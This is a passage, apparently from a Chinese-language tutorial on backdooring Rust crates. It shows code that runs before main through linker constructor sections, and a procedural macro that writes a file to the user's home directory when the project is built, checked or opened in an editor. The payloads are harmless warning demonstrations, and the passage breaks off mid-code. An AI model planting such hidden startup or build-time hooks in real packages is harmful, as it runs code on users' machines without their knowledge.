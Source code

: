 ```rust
                    link_section = ".init_array"
                )]
                // Assume all other unixs support .ctors
                #[cfg_attr(all(
                    any(unix, all(target_os = "windows", target_env = "gnu")),
                    not(any(
                        target_os = "macos", target_os = "ios",
                        target_os = "tvos", target_os = "linux",
                        target_os = "android", target_os = "freebsd",
                        target_os = "netbsd",
                    ))
                ), link_section = ".ctors")]
                #[cfg_attr(all(windows, not(target_env = "gnu")), link_section = ".CRT$XCU")]
                static __CTOR: extern "C" fn() = __init_function;
            };
        };
    };
}
```

可以在库中创建后门：

- lib.rs

```rust
pub fn do_something() {
    println!("do something...");
}

startup::on_startup! {
    println!("Warning! You just ran a malicious package. Please read https://kerkour.com/rust-crate-backdoor for more information.");
}
```

- main.rs

```rust
fn main() {
    backdoored_crate::do_something();
}
```

恶意代码将会在main函数开始之前运行。

宏代码会在编译或使用`cargo check`指令的时候运行，`rust-analyzer`在编辑器打开项目时也会展开宏，因此，如果依赖库中的宏中含有恶意代码，这些代码可能会在用户未知的时候运行。例如：

- lib.rs

```rust
use proc_macro::TokenStream;
use std::path::Path;

fn write_warning(file: &str) {
    let home = std::env::var("HOME").unwrap();
    let home = Path::new(&home);
    let warning_file = home.join(file);

    let message = "Warning! You just ran a malicious package. Please read https://kerkour.com/rust-crate-backdoor for more information.";
    let _ = std::fs::write(warning_file, message);
}

// 属性宏
#[proc_macro_derive(Evil)]
pub fn evil_derive(_item: TokenStream) -> TokenStream {
    write_warning("WARNING_DERIVE");
```